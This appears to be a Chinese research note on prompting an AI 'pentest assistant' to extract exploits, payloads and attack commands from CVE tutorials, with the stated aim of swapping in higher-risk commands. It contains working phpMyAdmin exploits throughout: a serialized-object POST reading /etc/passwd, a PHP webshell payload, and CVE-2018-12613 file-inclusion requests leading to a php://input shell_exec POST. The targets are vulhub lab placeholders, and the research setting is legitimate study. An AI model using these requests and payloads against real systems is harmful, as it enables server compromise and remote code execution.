 # 250716

研究的目标是要从一个网页教程中总结出三个关键信息，然后基于这三个信息做进一步的渗透利用，如修改attack_command，执行更高危的攻击操作

- input：一个/多个网页CVE漏洞的exploit教程
- output

  - exploit:  能够触发或利用漏洞的注入点
  - payloads：包含命令注入的攻击脚本，如木马程序、reverse shell
  - attack_command：真实想在目标靶机执行的操作
- example 1

  ```http
  POST /scripts/setup.php HTTP/1.1
  Host: your-ip:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 80

  action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

  ```

  ```json
  {
    "exploits": [
      "POST /scripts/setup.php?action=test",
      "POST body parameter: configuration=<serialized PMA_Config>"
    ],
    "payloads": [
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:11:\"/etc/passwd\";}",
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:XX:\"<?php system($_GET['cmd']); ?>\";}"
    ],
    "attack_commands": [
      "/etc/passwd",
      "execute system($_GET['cmd']) (RCE)"
    ]
  }

  ```
- example 2
  link: [https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md]()

  ```json
  {
    "exploits": [
      "GET /index.php?target=db_sql.php%253f/../../../../../../etc/passwd",
      "GET /index.php?target=db_sql.php?/../../../../../../tmp/sess_<session_id>"
    ],
    "payloads": [
      "select '<?php phpinfo()?>'",
      "<?php phpinfo()?> injected into session file"
    ],
    "attack_commands": [
      "read /etc/passwd",
      "execute phpinfo() via session inclusion"
    ]
  }

  ```

## prompt

- 参考论文：Structured Chain-of-Thought Prompting for Code Generation ，TOSEM 2025

  ![example img](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250716/1752674818748.png)
- prompt

  ```
  You are a helpful pentest assistant. Please carefully read this web-based tutorial, understand how it triggers or exploits the vulnerability through injection points, and organize the tutorial content in a tree structure format. Make it simple and easy to read for beginners.

  Please note:
  - The task descriptions in the tree structure should be as concise as possible.
  - Necessary details should be written in natural language.
  - Specific attack commands should be marked using bullet points (-) in markdown format.
  - All outputs should be in Markdown format.

  Web tutorial url: {URL}
  Output Example: Pentest Task Tree
  1. Port scanning
    - nmap -sC -sV {port} {target_ip}
    - Services are FTP, SSH, and Web Service.
  2.Perform the testing
    2.1 Test FTP Service
      2.1.1 Test Anonymous Login
      2.1.1.1 Test Anonymous Upload
    2.2 Test SSH Service 
      2.2.1 Brute-force 
    2.3 Test Web Service 
      2.3.1 Directory Enumeration
          2.3.1.1 Find hidden admin
          2.3.2 Injection Identification
  ```
- output

  ```markdown
  # Pentest Task Tree – CVE-2018-12613 (phpMyAdmin LFI → RCE)

  ## 1. Prepare Environment
  ### 1.1 Download and launch vulnerable phpMyAdmin
  - `docker-compose up -d`

  ### 1.2 Access phpMyAdmin service
  - Open browser at `http://your-ip:8080`

  ## 2. Understand the Vulnerability
  ### 2.1 Version affected
  - phpMyAdmin ≤ 4.8.1 has an improper input validation on the `target` parameter in `index.php`.

  ### 2.2 Type of vulnerability
  Allows **Local File Inclusion (LFI)**, including special streams like `php://input`.

  ## 3. Confirm Local File Inclusion (LFI)
  ### 3.1 Attempt to include sensitive file
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../etc/passwd`

  ### 3.2 Expected result
  Page should display contents of `/etc/passwd`.

  ## 4. Achieve Remote Code Execution (RCE)
  ### 4.1 Use `php://input` for payload injection
  Craft a URL to include the `php://input` stream:
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../php://input`

  ### 4.2 Send POST payload with PHP code
  Send a POST request that includes PHP code to execute a system command:
  - 
    ```http
    POST /index.php?target=db_sql.php%253f/../../../../../../../../../php://input HTTP/1.1
    Host: your-ip:8080
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
  ```

